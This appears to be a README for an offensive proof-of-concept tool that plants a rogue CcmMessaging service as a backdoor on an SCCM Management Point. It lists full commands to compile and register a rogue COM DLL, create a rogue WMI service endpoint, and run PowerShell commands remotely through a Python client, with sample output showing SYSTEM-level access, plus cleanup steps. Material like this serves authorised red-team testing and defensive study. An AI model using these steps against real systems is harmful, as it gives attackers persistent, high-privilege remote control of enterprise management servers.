 # CcmMessagingBackdoor

https://learn.microsoft.com/en-us/intune/configmgr/develop/reference/core/clients/client-classes/ccm_service_endpointconfiguration-client-wmi-class

Proof of Concept tooling to build and install a rogue CcmMessaging service to maintain access on a Management Point

## Usage

- Compile and install the rogue COM service on the Management Point
```powershell
# Compile
PS C:\> C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe /t:library /out:c:\rogue.dll RogueCcmEndpoint.cs

# Register CLSID
PS C:\> C:\Windows\Microsoft.NET\Framework64\v2.0.50727\RegAsm.exe /codebase c:\rogue.dll
```

- Configure the service endpoint in WMI
```powershell
PS C:\>  ./wmi_create_rogue_service_endpoint.ps1
```

- Use the Python client to run powershell commands
```bash
$ python3 ccmmessaging_backdoor_client.py -t https://mp.corp.local -s MP_Backdoor 'whoami'
[...]
<BackdoorResponse>nt authority\system
</BackdoorResponse>
```

- To clean

```powershell
# Unregister CLSID
PS C:\> C:\Windows\Microsoft.NET\Framework64\v2.0.50727\RegAsm.exe /unregister c:\rogue.dll

PS C:\> ./wmi_remove_rogue_service_endpoint.ps1
```

